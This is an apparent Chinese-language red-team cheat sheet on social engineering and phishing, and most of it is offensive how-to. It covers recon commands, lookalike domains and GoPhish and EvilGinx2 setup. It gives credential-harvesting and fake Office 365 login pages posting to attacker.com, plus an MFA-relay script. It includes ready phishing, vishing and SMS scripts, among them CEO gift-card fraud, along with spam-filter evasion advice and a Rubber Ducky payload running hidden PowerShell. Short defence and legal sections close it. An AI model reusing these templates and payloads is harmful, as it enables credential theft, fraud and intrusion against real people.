


# 社会工程学与钓鱼

> 从心理学到技术实现，系统化掌握社会工程攻击与防御

---

## 一、社会工程学基础

### 1.1 心理学原理

| 原理 | 描述 | 利用方式 |
|:-----|:-----|:---------|
| 互惠性 | 受惠后想回报 | 先提供帮助再索取信息 |
| 承诺一致性 | 承诺后会保持一致 | 从小请求开始逐步升级 |
| 社会认同 | 跟随他人行为 | "其他同事都这样做了" |
| 喜好 | 倾向答应喜欢的人 | 建立共同点/赞美 |
| 权威 | 服从权威人物 | 冒充IT/管理/执法 |
| 稀缺性 | 稀缺的东西更有价值 | "限时优惠/剩余名额" |
| 紧迫性 | 时间压力降低判断力 | "立即处理否则账号关闭" |
| 恐惧 | 害怕负面后果 | "您的账户已被入侵" |

### 1.2 攻击类型



### 1.3 攻击生命周期

```
侦察阶段
  └─ 收集目标信息 (LinkedIn/官网/社交)
     └─ 武器化
        └─ 制作诱饵/邮件/页面
           └─ 投递
              └─ 发送/发布/部署
                 └─ 交互
                    └─ 受害者点击/打开
                       └─ 利用
                          └─ 获取凭证/执行代码
                             └─ 达成目标
```

---

## 二、信息侦察

### 2.1 公开信息收集

```bash
# 员工信息
# LinkedIn搜索
site:linkedin.com "公司名" "员工"
# 提取批量信息
theHarvester -d company.com -b linkedin

# 公司邮箱格式
# 常见的: name@company.com
#         firstname.lastname@company.com
#         f.lastname@company.com
#         firstinitialastname@company.com

# 验证邮箱格式
# 通过邮件服务器验证
smtp-user-enum -M VRFY -U users.txt -t mail.company.com

# 组织架构
# 从LinkedIn/LinkedIn Sales Navigator
# 管理层: CEO/CTO/CFO/CIO
# IT部门: IT经理/系统管理员
# HR部门: HR经理/招聘专员
# 财务部: 财务总监/会计

# 联系信息
# Hunter.io - 邮箱搜索
hunter.io search company.com

# Skrapp.io
# RocketReach
# Apolo.io
```

### 2.2 技术信息

```bash
# 邮件SPF记录
dig txt company.com | grep spf

# DMARC策略
dig _dmarc.company.com txt

# 邮件服务器
dig mx company.com

# 技术栈
whatweb -v https://company.com
wappalyzer https://company.com

# 使用的服务
# Office 365 / G Suite / 自定义邮件
# 使用的CMS/框架
# 第三方服务提供商
```

### 2.3 定制化信息

```bash
# 员工使用的工具
# - Slack/Discord
# - Jira/Confluence
# - GitHub/GitLab
# - Salesforce
# - Zoom/Teams

# 近期事件
# - 公司新闻/并购/重组
# - 系统迁移/升级
# - 安全培训/审计
# - 节假日/活动

# 个人兴趣
# - 社交媒体帖子
# - 参加的会议
# - 分享的文章
```

---

## 三、钓鱼平台搭建

### 3.1 域名配置

```bash
# 域名选择技巧
# 使用相似的域名
# paypa1.com (paypal)
# microsoft-support.com
# google-login.com
# company-okta.com

# 使用子域名
# login.company.com.attacker.com
# company.com.login.attacker.com

# 使用同形异义字
# 使用类似字母: rn→m, l→1, o→0
# 使用Unicode字符

# 邮箱配置
# SPF记录: 包含发送服务器
# DKIM签名: 提高信誉
# DMARC: 监控使用

# SSL证书
# Let's Encrypt免费证书
certbot certonly --standalone -d phishing.com
```

### 3.2 GoPhish搭建

```bash
# 安装GoPhish
wget https://github.com/gophish/gophish/releases/download/v0.12.1/gophish-v0.12.1-linux-64bit.zip
unzip gophish-v0.12.1-linux-64bit.zip
cd gophish-v0.12.1-linux-64bit

# 修改配置
# config.json
{
    "admin_server": {
        "listen_url": "0.0.0.0:3333",
        "use_tls": true,
        "cert_path": "gophish_admin.crt",
        "key_path": "gophish_admin.key"
    },
    "phish_server": {
        "listen_url": "0.0.0.0:80",
        "use_tls": false
    },
    "db_name": "sqlite3",
    "db_path": "gophish.db",
    "migrations_prefix": "db/db_"
}

# 运行
./gophish

# 访问管理界面
# https://your-server:3333
# 默认密码: gophish
```

### 3.3 钓鱼模板

```html
<!-- 凭证收集页面 -->
<form action="https://attacker.com/collect" method="POST">
    <h2>安全验证</h2>
    <p>由于安全策略更新，请验证您的账户</p>
    
    <label>邮箱地址</label>
    <input type="email" name="email" required>
    
    <label>密码</label>
    <input type="password" name="password" required>
    
    <button type="submit">验证身份</button>
</form>

<!-- 伪造Office 365登录页 -->
<html>
<head>
    <title>Microsoft Office 365 - 登录</title>
    <link rel="icon" href="https://www.microsoft.com/favicon.ico">
</head>
<body>
    <div class="logo">
        
    </div>
    <div class="login-box">
        <h2>登录</h2>
        <form action="https://attacker.com/collect" method="POST">
            <input type="text" name="username" placeholder="电子邮件、手机号或Skype">
            <input type="password" name="password" placeholder="密码">
            <input type="hidden" name="original_url" value="<?php echo $_GET['url']; ?>">
            <button type="submit">登录</button>
        </form>
    </div>
</body>
</html>

<!-- MFA绕过页面 -->
<html>
<head><title>Microsoft Authenticator</title></head>
<body>
    <div class="mfa-box">
        <h2>多因素认证</h2>
        <p>请在下方输入验证码</p>
        <form action="https://attacker.com/collect_mfa" method="POST">
            <input type="hidden" name="session" value="session_token">
            <input type="text" name="mfa_code" placeholder="6位验证码" maxlength="6">
            <button type="submit">验证</button>
        </form>
        <script>
            // 实时转发MFA代码到攻击者
            setInterval(function() {
                new Image().src = 'https://attacker.com/ping?session=session_token';
            }, 5000);
        </script>
    </div>
</body>
</html>
```

### 3.4 EvilGinx2 (MFA绕过)

```bash
# 安装EvilGinx2
git clone https://github.com/kgretzky/evilginx2
cd evilginx2
make

# 配置文件
# phishlets/microsoft.yaml
name: 'microsoft'
author: 'kgretzky'
min_ver: '2.0.0'

proxy_hosts:
  - phish_subdomains:
    - login
    phish_host: login.microsoftonline.com
    original_host: login.microsoftonline.com
    session_data:
      - domain: '.login.microsoftonline.com'
        phish_path: /
        original_path: /
    sub_filters:
      - trg: 'action="/'
        type: action
        new_trg: 'https://login.microsoftonline.com/'
      - trg: 'href="/'
        type: href
        new_trg: 'https://login.microsoftonline.com/'

# 运行
sudo ./evilginx2 -p phishlets/

# 配置
config domain phishing.com
config ip 1.2.3.4
phishlets hostname microsoft login.phishing.com
phishlets geturl microsoft
```

### 3.5 SET (Social Engineering Toolkit)

```bash
# 安装
apt install set

# 运行
setoolkit

# 菜单
1) 社会工程攻击
  1) 鱼叉邮件攻击
  2) Web攻击
    1) Java Applet攻击
    2) 凭证收集
    3) 标签导航
    4) 中间人攻击
  3) 可移动媒体攻击
  4) 二维码攻击
  5) 无线接入点攻击
  6) 电话钓鱼
```

---

## 四、邮件钓鱼

### 4.1 鱼叉邮件模板

```email
# 来自IT部门的密码过期通知
Subject: 重要: 您的密码将在24小时内过期
From: IT Support <support@company-security.com>
To: target@company.com

尊敬的 员工，

我们的安全系统检测到您的密码将于24小时内过期。
为避免账户被锁定，请立即更新您的密码:

[点击此处更新密码](https://company-security.com/reset)

此操作需要立即处理。

谢谢，
IT支持团队

# 来自HR的薪资更新
Subject: 重要通知: 薪资系统更新
From: HR Department <hr@company-payroll.com>
To: target@company.com

尊敬的 员工，

我们已更新了薪资管理系统，请登录确认您的个人信息，
以确保本月薪资正常发放。

[确认个人信息](https://company-payroll.com/verify)

HR部门

# 来自CEO的紧急请求
Subject: 紧急帮助
From: CEO Name <ceo@company.com>
To: target@company.com

你好，

我正在参加一个重要的董事会会议，现在需要紧急购买一些礼品卡。
我目前无法使用公司系统，能否帮我购买$500的苹果礼品卡？
我会在会议结束后立即报销。

请尽快回复。

谢谢

# 来自安全团队的异常登录
Subject: 安全警报: 检测到异常登录
From: Security Team <security@company-alerts.com>
To: target@company.com

尊敬的 员工，

我们检测到从异常位置登录了您的账户:
- IP: 185.220.xxx.xxx
- 位置: 俄罗斯 莫斯科
- 时间: 2024-01-15 03:00 AM

如果这不是您本人操作，请立即验证您的账户:
[验证账户](https://company-alerts.com/verify)

安全团队
```

### 4.2 邮件发送

```bash
# 使用SMTP
# 配置SMTP服务器
# - 使用合法邮箱 (Gmail/Outlook/Yahoo)
# - 使用VPS自建
# - 使用邮件中继服务 (SendGrid/Mailgun)

# Python发送邮件
python3 << 'EOF'
import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart

msg = MIMEMultipart()
msg['From'] = 'IT Support <support@company.com>'
msg['To'] = 'target@company.com'
msg['Subject'] = 'Password Expiration Notice'

body = """
<html>
<body>
<p>Your password will expire in 24 hours.</p>
<a href="http://phishing.com/reset">Click here to reset</a>
</body>
</html>
"""

msg.attach(MIMEText(body, 'html'))

server = smtplib.SMTP('smtp.gmail.com', 587)
server.starttls()
server.login('email@gmail.com', 'password')
server.send_message(msg)
server.quit()
EOF

# 使用GoPhish发送
# 配置Sending Profiles
# SMTP服务器信息
# 发送速率控制
# 自定义Header
```

### 4.3 邮件评分优化

```bash
# SPF记录检查
dig txt company.com
# 确保发送服务器在SPF中

# DKIM签名
opendkim-genkey -d phishing.com -s default
# 添加TXT记录: default._domainkey.phishing.com

# DMARC策略
_dmarc.company.com TXT "v=DMARC1; p=none;"

# 邮件内容优化
# - 避免垃圾邮件关键词
# - 合理使用HTML格式
# - 添加公司Logo
# - 使用真实签名
# - 个性化称呼

# 发送时间
# - 工作时间 (9:00-17:00)
# - 星期一早上/星期五下午
# - 避免节假日
```

### 4.4 反检测技术

```bash
# 避免垃圾邮件过滤器
# 1. 预热域名
#  - 先发送正常邮件
#  - 逐步增加发送量
#  - 建立域名信誉

# 2. 邮件内容
#  - 避免触发词: free, click here, urgent
#  - 合理文字/图片比例
#  - 包含退订链接
#  - 使用个性化变量

# 3. 发送策略
#  - 随机延迟发送
#  - 分批发送
#  - 每个收件人定制内容
#  - 避免同一IP大量发送

# 4. URL处理
#  - 使用URL缩短服务
#  - 使用重定向链
#  - 使用profile.php?id=xxx 参数传递
```

---

## 五、水坑攻击

### 5.1 技术实现

```javascript
// 在目标网站注入的脚本
// 1. 通过XSS注入
fetch('https://vulnerable-site.com')
  .then(createFakeLogin)

// 2. 通过广告注入
// 购买目标网站的广告位
// 广告脚本加载钓鱼页面

// 3. 通过第三方资源
// 篡改CDN/JS库
// 修改npm包

// 4. 中间人攻击
// ARP欺骗
// DNS欺骗
// WiFi钓鱼
```

### 5.2 水坑场景

```
目标: 公司内部系统/门户
1. 识别员工常用的内部系统
2. 在这些系统上植入恶意代码
3. 等待员工访问
4. 收集凭证/执行payload
```

---

## 六、电话钓鱼 (Vishing)

### 6.1 脚本模板

```
=== 冒充IT支持 ===
"您好，我是IT部门的XX，我们检测到您的电脑有异常登录，
为了安全起见，请提供您的用户名和密码以便我们检查..."

=== 冒充HR ===
"关于您的薪资调整，需要确认一些个人信息，
请提供您的社保号和银行账号..."

=== 冒充供应商 ===
"我是XX公司的XX，关于我们正在进行的项目，
需要远程访问您的系统进行测试..."

=== 冒充执法机构 ===
"我是XX公安局的XX警官，您的身份信息可能被冒用，
需要配合我们进行核实..."
```

### 6.2 VoIP工具

```bash
# Twilio (API)
# VOIP.ms
# Skype
# Google Voice

# 号码伪装
# - 显示来电号码伪装
# - 使用本地号码
# - 使用公司相似号码
```

---

## 七、SMS钓鱼 (Smishing)

### 7.1 短信模板

```
[银行] 尊敬的用户，您的账户已被锁定，请点击验证:
https://bank-verify.com

[快递] 您的快递已到达，请确认配送时间:
https://delivery-confirm.com

[系统] 安全警告: 检测到异常登录，请立即验证:
https://account-verify.com

[Apple] 您的iCloud存储空间即将满，请升级:
https://icloud-upgrade.com
```

### 7.2 SMS发送

```bash
# Twilio SMS API
pip install twilio

python3 << 'EOF'
from twilio.rest import Client

client = Client("ACCOUNT_SID", "AUTH_TOKEN")
message = client.messages.create(
    body="您的账户已被锁定，请验证: https://phishing.com",
    from_="+1234567890",
    to="+1987654321"
)
EOF

# AWS SNS
# ClickSend
# Plivo
```

---

## 八、二维码钓鱼 (Quishing)

### 8.1 生成二维码

```python
import qrcode
# 生成钓鱼二维码
qr = qrcode.QRCode(version=1, box_size=10, border=5)
qr.add_data('https://phishing.com/login')
qr.make(fit=True)
img = qr.make_image(fill_color="black", back_color="white")
img.save('phishing_qr.png')

# 使用在线工具
# qr-code-generator.com
# goqr.me
```

### 8.2 投递方式

```
- 伪造的快递单上二维码
- 伪造的停车罚单二维码
- 咖啡厅/公共场所贴纸覆盖
- 邮件附件中的二维码
- 伪造的活动门票二维码
```

---

## 九、USB掉落攻击

### 9.1 恶意USB制作

```bash
# Rubber Ducky (USB HID攻击)
# Duckyscript
REM 打开运行
CONTROL ESC
DELAY 500
STRING r
DELAY 500
STRING powershell -NoP -NonI -W Hidden -Exec Bypass -Enc SQBFAFgA...
ENTER

# BadUSB
# Teensy/Arduino作为HID设备
# 模拟键盘输入
# 自动执行payload

# USB橡皮鸭
# 自动安装后门
# 收集WiFi密码
# 窃取文件

# 物理投递
# - 停车场丢带有公司Logo的U盘
# - 伪装成赠品
# - 快递包裹中的U盘
```

### 9.2 诱饵策略

```
- 标记为"机密"或"薪资"的U盘
- 带有公司Logo的定制U盘
- U盘附带"中奖"标签
- 伪装成免费赠品
```

---

## 十、防御与检测

### 10.1 安全培训

| 培训主题 | 频率 | 目标 |
|:---------|:-----|:-----|
| 钓鱼识别基础 | 季度 | 全员 |
| 社会工程攻击 | 半年 | 全员 |
| 邮件安全 | 季度 | 全员 |
| 电话钓鱼识别 | 半年 | 前台/客服 |
| 物理安全 | 年度 | 全员 |
| 钓鱼模拟 | 每月 | 全员 |

### 10.2 技术防护

```bash
# 邮件安全
# - SPF/DKIM/DMARC配置
# - 邮件网关过滤
# - 链接重写/沙箱
# - 附件扫描

# Web过滤
# - URL分类过滤
# - 已知恶意网站拦截
# - 浏览器安全扩展

# 端点防护
# - EDR/AV实时检测
# - 应用控制
# - USB设备控制
# - 浏览器隔离

# MFA
# - 强制多因素认证
# - FIDO2/U2F硬件密钥
# - 风险感知认证
```

### 10.3 检测指标

```bash
# 用户报告
# 报告率 = 报告钓鱼数 / 总钓鱼数
# 点击率 = 点击链接数 / 总接收数
# 凭证泄露率 = 输入凭证数 / 总点击数

# 邮件网关指标
# - SPF失败率
# - DKIM签名失败率
# - 附件类型分布
# - 可疑URL点击率
```

### 10.4 应急响应



---

## 十一、合规与法律

### 11.1 法律边界

| 地区 | 相关法律 | 允许范围 |
|:-----|:---------|:---------|
| 中国 | 网络安全法/刑法 | 授权测试 |
| 美国 | CFAA | 书面授权 |
| 欧盟 | GDPR | 测试通知 |
| 英国 | Computer Misuse Act | 书面授权 |

### 11.2 授权测试框架

```
1. 书面授权书
2. 测试范围定义
3. 测试时间窗口
4. 紧急联系方式
5. 数据保护措施
6. 测试终止条件
7. 结果报告规范
```

---

## 十二、速查总表

### 12.1 工具清单

| 工具 | 用途 | 链接 |
|:-----|:-----|:-----|
| GoPhish | 钓鱼平台 | getgophish.com |
| EvilGinx2 | MFA绕过钓鱼 | github.com/kgretzky/evilginx2 |
| SET | 社会工程工具包 | trustedsec.com |
| Modlishka | 反向代理钓鱼 | github.com/drk1wi/Modlishka |
| CredSniper | 凭证收集 | github.com/n0tty/CredSniper |
| SocialFish | 钓鱼框架 | github.com/UndeadSec/SocialFish |
| King Phisher | 钓鱼模拟 | github.com/securestate/king-phisher |
| Mailoney | SMTP蜜罐 | github.com/phin3has/Mailoney |

### 12.2 检查清单

```
□ 收集目标员工邮箱
□ 收集目标组织架构
□ 搭建钓鱼服务器
□ 配置SSL证书
□ 配置SPF/DKIM/DMARC
□ 创建钓鱼模板
□ 测试钓鱼链接
□ 预热发件域名
□ 分批次发送测试
□ 监控收集数据
□ 分析点击率
□ 生成报告
```

### 12.3 推荐资源

| 资源 | 链接 |
|:-----|:-----|
| Phishing Database | phishtank.com |
| APWG | antiphishing.org |
| SANS Social Engineering | sans.org |
| Social Engineer Framework | social-engineer.org |
| Red Team Ops | zeropointsecurity.co.uk |

---

> **参考资源**
>
> - The Art of Deception - Kevin Mitnick
> - Social Engineering: The Art of Human Hacking
> - SANS Social Engineering
> - OWASP Social Engineering
> - MITRE ATT&CK - Initial Access (Phishing)
